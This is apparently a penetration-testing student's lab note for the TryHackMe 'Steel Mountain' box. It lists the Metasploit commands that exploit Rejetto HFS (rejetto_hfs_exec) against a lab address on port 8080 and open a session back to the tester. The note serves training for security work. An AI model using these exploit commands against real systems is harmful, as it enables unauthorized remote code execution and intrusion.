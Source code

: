 Found exploit in [[PNPT/THM Boxes/SteelMountain/Enumeration|Enumeration]]

# Exploitation
---
- Using Metasploit:
	- ![[Pasted image 20250419044631.png]]
	- `use exploit/windows/http/rejetto_hfs_exec`
	- `set rhosts 10.10.155.147`
	- `set rport 8080`
	- `set lhost tun0`
	- `run`
	- ![[Pasted image 20250419044927.png]]